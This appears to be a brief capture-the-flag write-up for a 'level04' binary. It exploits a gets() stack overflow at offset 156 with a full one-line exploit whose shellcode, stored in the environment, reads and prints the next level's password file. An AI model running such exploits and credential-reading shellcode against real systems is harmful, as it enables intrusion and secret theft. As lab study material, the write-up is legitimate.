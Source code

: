 Overflow dans EIP depuis gets
Offset 156
Adresse du shellcode
Shellcode dans l'env
env -i pour qu'il soit toujours au meme endroit

```bash
python -c 'print "\x90" * 156 + "\x73\xdf\xff\xff"' | env -i SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x35\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc9\x31\xd2\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x89\xe1\xb2\x80\xb0\x03\xcd\x80\xb0\x04\xb3\x01\xcd\x80\x31\xc0\xb0\x06\xcd\x80"') ./level04
```
